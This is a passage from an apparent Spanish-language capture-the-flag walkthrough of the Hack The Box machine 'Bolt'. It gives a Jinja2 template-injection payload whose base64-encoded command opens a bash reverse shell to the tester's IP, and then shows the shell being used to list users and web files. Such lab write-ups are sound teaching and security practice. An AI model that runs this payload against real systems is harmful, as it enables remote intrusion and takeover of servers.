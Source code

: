 Ahora simplemente le damos forma a la inyección:

{% raw %}
```jinja2
{{config.__class__.__init__.__globals__['os'].popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS80NDMzIDA+JjEK | base64 -d | bash').read()}}
```
{% endraw %}

Así que tomara la cadena, la decodeara y la interpretará, cuando la intérprete generará nuestra **Reverse Shell** (si es que sirve :P)...

Modificamos, confirmamos yyy al momento de confirmar pasa esto en nuestra terminal:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bolt/384bash_wwwdata_RevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

PERFECTOOOOOOOOOWOWOWOWOEOWEOEIJfsadojflkajfl, hemos conseguido acceso al sistema explotando un **Server Side Template Injection** (:

...

Ahora jugamos con nuestra terminal para hacerla más linda y dinámica: nos permitirá tener histórico de comandos, movernos entre ellos y hacer `CTRL+C` sin miedo a perder la Shell (:

* [Tratamiento de la TTY](https://lanzt.gitbook.io/cheatsheet-pentest/tty).

Sigamos con la máquina...

¿Qué usuarios existen en el sistema? Veamos:

```bash
www-data@bolt:/demo$ ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Mar  3  2021 .
drwxr-xr-x 19 root  root  4096 Jan 26 07:14 ..
drwxr-x--- 15 clark clark 4096 Feb 25  2021 clark
drwxr-x--- 16 eddie eddie 4096 Feb  2 12:27 eddie
```

Bien, si encontramos credenciales, llaves, cadenas extrañas, lo que sea, podemos probarlo contra ellos a ver si conseguimos una Shell (:

Cuando conseguimos la reverse Shell llegamos a este directorio:

```bash
www-data@bolt:~/demo$ pwd
/var/www/demo
www-data@bolt:~/demo$ ls -la
total 36
drwxr-xr-x 5 www-data www-data 4096 Aug  4 13:06 .
drwxr-xr-x 6 root     root     4096 Aug  4 13:06 ..
-rw-r--r-- 1 www-data www-data 6399 Mar  6  2021 app.py
-rw-r--r-- 1 www-data www-data  420 Mar  4  2021 config.py
drwxr-xr-x 2 www-data www-data 4096 Mar  6  2021 __pycache__
drwxr-xr-x 3 www-data www-data 4096 Mar  4  2021 static
drwxrwxr-x 6 www-data www-data 4096 Mar  5  2021 templates
-rw-r--r-- 1 www-data www-data   62 Mar  4  2021 wsgi.py
```
